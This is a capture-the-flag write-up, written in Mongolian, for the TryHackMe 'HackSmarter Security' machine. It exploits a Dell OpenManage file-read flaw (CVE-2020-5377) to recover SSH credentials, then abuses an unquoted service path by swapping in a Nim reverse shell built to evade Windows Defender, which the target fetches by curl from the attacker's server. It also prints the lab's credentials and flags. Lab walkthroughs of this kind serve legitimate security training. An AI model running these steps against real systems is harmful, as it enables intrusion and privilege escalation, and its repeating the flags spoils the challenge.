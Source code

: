 # HackSmarter Security THM
*** 
Difficulty - Medium

## Description
    Can you hack the hackers?

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/2.png">
</p>

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/3.png">
</p>

## Solve

<p> Nmap , gobuster хийж эхлэнэ.  
``sudo nmap -A -sC -sV -sF 10.10.187.78``
``gobuster dir -u 10.10.130.21 -w /usr/share/wordlists/dirb/common.txt``
</p>

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/Screenshot_2024-03-22_11-03-40.png">
</p>

gobuster дээр 80р порт хаалттай байсаэ тул ажилаагүй харин nmap -с 1311-р порт онгорхой байгаа мэдээлэл авсан тиймээс орж үзэхэд 
Dell emc openmanager login хэсэг байсан.

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/1.png">
</p>

about хэсэгээс version ий мэдээлэл нь 9.4.0.2 гэж байсан тиймээс searchsploit оос Dell emc openmanager гэж хайхад 
CVE-2020-5377 буюу Arbitrary File Read Vuln эмзэг байдалтай байсан.

Github аас мөн POC олсон 
https://github.com/RhinoSecurityLabs/CVEs/blob/master/CVE-2020-5377_CVE-2021-21514/CVE-2020-5377.py

POC ажилуулах комманд - 
``python hacksmart.py 10.4.49.166 10.10.187.78:1311``
Мэдээлэл агуулсан файлын path -
`` \inetpub\wwwroot\hacksmartersec\web.config ``

web.config дотор хэрэглэгчийн нэвтрэх мэдээлэл байсан.
``cred - user "tyler" pass - "IAmA1337h4x0randIkn0wit!"``
Үүнийг ашиглаад ssh ээр хандаж ороход 

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/4.png">
</p>

ингээд user.txt -г олсон.
type ``user.txt - THM{4ll15n0tw3llw1thd3ll}`` 

Одоо root.txt авахын тулд эрхийн түвшинг ихэсгэх үе шатандаа орно.

<p>Ямар нэгэн privilage escalation хийх боломж хайж 30-40 минут зарсаны дараа Program files (x86) дотроос Spoofer гэдэг нэмэлтээр суулгасан программ
олсон ба changes.txt дотор нь spoofer-1.4.6 (2020-07-24) гэж байсан хайгаад үзэхэд unquoted service path гэдэг Privilage escalation хийх боломж үүсдэг
эмзэг байдалтай байсан.
</p>

``
Unquoted service path - In simple terms, when a service is created whose executable path
contains spaces and isn't enclosed within quotes, leads to a vulnerability known as 
Unquoted Service Path which allows a user to gain SYSTEM privileges 
(only if the vulnerable service is running with SYSTEM privilege level 
which most of the time it is).
``
<p>Spoofer folder дотор бичих эрхгүй ч гэсэн устгах шинээр файл үүсгэх, serviceг асаах,зогсоох эрхтэй байсан.</p>

``
sc.exe stop spoofer-scheduler - Унтраах
sc.exe start spoofer-scheduler - Асаах
``
Тиймээс хэрвээ энэхүү service -г унраагаад оронд нь өөрийнхөө хортой программуудыг ажиллуулаад асаавал ажиллана гэсэн үг юм.
Гэхдээ Windows defender ажиллах байсан тул код нь илэрсэн тохиолдолд Quarantine хийгдэх тул Windows defender 11 bypass хийх арга олсон.

<p>Тухайн үедээ ажилладаг байгаад одоо засагдсан арга нь .nim болгож reverse shell авах арга бий. </p>
``https://github.com/Sn1r/Nim-Reverse-Shell/blob/main/rev_shell.nim``

дээрх rev shellийг авч доорх коммандаар spoofer-scheduler.exe гэдэг нэрээр rev_shell.nim -г compile хийнэ. 
`` nim c -d:mingw --app:gui --opt:speed -o:spoofer-scheduler.exe rev_shell.nim  ``

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/5.png">
</p>

<p>тэгээд</p> 
sc stop spoofer-scheduler хийж зогсоосноор 

<p>дараа нь өөрийн сервер асааж 
└─$ python -m http.server 6969
</p>
<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/6.png">
</p>

<p>
spoofer-scheduler.exe file -г windows дээр татна.
</p>

``curl http://10.4.49.166:6969/spoofer-scheduler.exe -o spoofer-scheduler.exe``

кали дээрээ listener асаагаад service ээ асаахад 
<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/7.png">
</p>

reverse shell ээ авна.

Shell нь тогтворгүй холболт удахгүй салаад байсан тул 
<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/8.png">
</p>
гэсэн admin user үүсгэж ssh ээр хандаж ороод root.txt ээ аваад өөрийн proof.txt -ыг үлдээсэн.

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/9.png">
</p>
<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/10.png">
</p>

Root.txt - буюу hacking-targets - `` CyberLens, Worksmarter, SteelMountain ``
